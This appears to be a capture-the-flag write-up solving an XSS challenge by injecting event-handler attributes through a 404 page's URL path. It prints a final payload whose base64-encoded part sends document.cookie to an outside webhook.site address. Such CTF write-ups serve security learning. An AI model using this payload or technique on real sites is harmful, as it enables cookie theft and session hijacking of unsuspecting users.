





# UREL-EX2S

> Have you heard the exciting news? The little princess has just created a website for fellow GT fans to connect and chat! Before the official launch, we want to ensure a secure experience for everyone. Could you help us by testing it for potential XSS vulnerabilities? We want to make sure her fans don't encounter any issues with data security, especially from those pesky Android robots.

## About the Challenge
We were given a source code (You can download the source code [here](dist.zip)) and the website. The source code is actually quite simple; there's no crazy controller, complicated structure, etc.



## How to Solve?
There's an interesting thing in the 404 page, when I input a random string in the URL (Ex: http://example/ddd). Our input reflected in the source code



I can close the tag by adding a quote in the url, and then I tried to use `<` and `>` to create a new HTML tag but the website encoded our input 



Because of the bot doesn't interact with the inputted url, We need to find a way to make the XSS payload executed without user interaction and I found this [tweet](https://twitter.com/RenwaX23/status/1122606900154130432)

Yayyy, so I tried to create a XSS payload again based on the tweet above, and there's an alert xD



```
http://app:8080/ddd'onfocus='alert(12)'name='jj#jj
```

More or less, the final payload looks like this
```
http://app:8080/ddd'style='x'onfocus='eval(atob(this.id))'id='d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzU1YWY3MzI2LWI5OTYtNGNjYS05OWM1LWM3ZmMzYzNhN2Y4My8/Jytkb2N1bWVudC5jb29raWUp'name='jj#jj
```

Input the payload to the bot form, and then check webhook.site to get the flag



```
STS23{xss_in_url_path!you_must_be_kidding_right?}
```
